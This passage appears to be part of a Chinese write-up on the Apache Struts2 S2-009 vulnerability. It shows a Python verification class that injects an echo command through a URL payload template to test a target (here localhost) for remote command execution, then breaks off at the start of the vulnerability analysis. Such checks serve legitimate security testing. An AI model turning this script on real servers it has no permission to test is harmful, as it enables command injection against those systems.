 ```python
        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8'))
            check_res = requests.get(check_url)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_009 = S2_009_BaseVerify('http://127.0.0.1:8080')
    S2_009.run()
```

## 漏洞分析

首先Struts2的运行流程是
